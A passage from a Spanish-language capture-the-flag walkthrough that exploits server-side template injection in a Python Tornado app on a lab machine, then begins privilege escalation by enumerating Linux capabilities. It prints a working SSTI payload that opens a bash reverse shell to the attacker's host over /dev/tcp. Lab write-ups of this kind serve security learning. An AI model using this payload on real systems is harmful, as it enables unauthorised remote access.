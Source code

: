 
- Probamos usando el parámetro "name" en la URL y poniéndole como valor cualquier cosa:

```
http://192.168.0.106:9999/?name=Test
```

- Podemos observar que el valor que le pasamos con el parámetro "name" se nos refleja en el output; recordemos que por detrás de este puerto está corriendo un `Python Tornado`, buscamos vulnerabilidades para esto y encontramos un SSTI [SSTI (Server Side Template Injection) - Tornado Python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python) 

- Verificamos que es vulnerable:

```
http://192.168.0.106:9999/?name={{7*7}}
```

- Y ahora lo que resta por hacer es mandarnos una `reverse shell`:

```
http://192.168.0.106:9999/?name={\%%20import%20os%20%}{\{os.system(\%27bash -c "bash -i >%26 /dev/tcp/192.168.0.145/443 0>%261"%27)}}
```


- Habremos accedido al sistema como el usuario `"saket"`.

<br><br>

# Escalando privilegios:


#### Nota: Podemos ver varios vectores para escalar privilegios, sin embargo aquí se eligió el más "complejo".


- Si enumeramos `capabilities` vemos que el comando "getcap" no funciona y nos tira este mensaje:

```js
Command 'getcap' is available in the following places
 * /sbin/getcap
 * /usr/sbin/getcap
```

- Así que editamos el `PATH` para que use la ruta /sbin:

```bash
$export PATH=/sbin:$PATH
```

- Y ahora sí funcionará el comando "getcap":

```bash
$getcap -r / 2>/dev/null
```


```js
/usr/bin/python2.7 = cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

